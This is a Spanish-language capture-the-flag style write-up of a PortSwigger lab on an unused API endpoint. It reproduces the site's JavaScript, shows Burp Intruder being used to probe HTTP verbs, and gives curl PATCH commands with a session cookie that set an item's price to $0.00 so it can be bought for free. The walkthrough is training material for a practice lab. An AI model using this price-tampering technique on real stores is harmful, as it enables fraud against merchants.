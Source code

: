 ```yaml
---
title: "Finding and exploiting an unused API endpoint"
date: 2025-02-16 12:27:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - API Testing
tags:
  - API Testing
  - Finding and exploiting an unused API endpoint
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Para `resolver` el laboratorio, debemos explotar un `endpoint oculto de la API` para comprar una `Lightweight l33t Leather Jacket`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/API-Testing-Lab-3/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/API-Testing-Lab-3/image_2.png)

Si nos `abrimos` el `código fuente` de la `web` nos encontramos estos

![](/assets/img/API-Testing-Lab-3/image_3.png)

Si accedemos a `https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/resources/js/api/productPrice.js` vemos este contenido

```
const Container = class {
    constructor(message, innerClasses, outerClasses) {
        this.message = message;
        this.innerClasses = innerClasses;
        this.outerClasses = outerClasses;
    }

    #build() {
        const outer = document.createElement('div');
        outer.setAttribute('class', this.outerClasses.join(' '))

        const inner = document.createElement('p');
        inner.setAttribute('class', this.innerClasses.join(' '));
        inner.innerHTML = this.message;

        outer.appendChild(inner);

        return outer;
    }

    static Error(message) {
        return new Container(message, ['is-warning'], ['error-message', 'message-container']).#build();
    }

    static ProductMessage(message) {
        return new Container(message, ['product-messaging-content'], ['product-messaging-banner', 'message-container']).#build();
    }

    static RemoveAll() {
        [...document.getElementsByClassName('message-container')].forEach(e => e.parentNode.removeChild(e));
    }
};

const getAddToCartForm = () => {
    return document.getElementById('addToCartForm');
};

const setPrice = (price) => {
    document.getElementById('price').innerText = price;
};

const showErrorMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.Error(message), target);
};

const showProductMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.ProductMessage(message), target);
};

const handleResponse = (target) => (response) => {
    if (response.error) {
        showErrorMessage(target, `Failed to get price: ${response.type}: ${response.error} (${response.code})`);
    } else {
        setPrice(response.price);
        if (response.message) {
            showProductMessage(target, response.message);
        }
    }
};

const loadPricing = (productId) => {
    const url = new URL(location);
    fetch(`//${url.host}/api/products/${encodeURIComponent(productId)}/price`)
        .then(res => res.json())
        .then(handleResponse(getAddToCartForm()));
};

window.onload = () => {
    const url = new URL(location);
    const productId = url.searchParams.get('productId');
    if (url.pathname.startsWith("/product") && productId != null) {
        loadPricing(productId);
    }
};
```

Pulsamos sobre `View details > Add to cart` para añadir un producto a nuestro carrito

![](/assets/img/API-Testing-Lab-3/image_4.png)

Si nos abrimos `Burpsuite` y nos dirigimos a la extensión `Logger ++` vemos que al `añadir` un `producto` al `carrito` se hace una petición a `/api/products/1/price`

![](/assets/img/API-Testing-Lab-3/image_5.png)

`Mandamos` la `petición` al `Intruder` y marcamos `GET`

![](/assets/img/API-Testing-Lab-3/image_6.png)

`Añadimos` el `payload` llamado `HTTP verbs`

![](/assets/img/API-Testing-Lab-3/image_7.png)

`Inspeccionamos` las `respuestas` recibidas y vemos un `código de estado 400` con esta `respuesta`

![](/assets/img/API-Testing-Lab-3/image_8.png)

`Enviamos` esta `petición` y nos responde que nos falta un `parámetro` en el `body`

```
# curl -X PATCH -s --cookie 'session=FAsAkXfF7a0bDzIPfF7Pwtsf7xTczZUQ' -H 'Content-Type: application/json' https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/api/products/1/price --data '{}'          
{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}  
```

`Modificamos` el `precio` del `artículo` aparentemente

```
# curl -X PATCH -s --cookie 'session=FAsAkXfF7a0bDzIPfF7Pwtsf7xTczZUQ' -H 'Content-Type: application/json' https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/api/products/1/price --data '{"price":0}'         
{"price":"$0.00"} 
```

Si nos `dirigimos` a la `web` podemos confirmarlo

![](/assets/img/API-Testing-Lab-3/image_9.png)

`Pulsamos` sobre `Place Order` y `compramos` el `artículo`

![](/assets/img/API-Testing-Lab-3/image_10.png)

![](/assets/img/API-Testing-Lab-3/image_11.png)
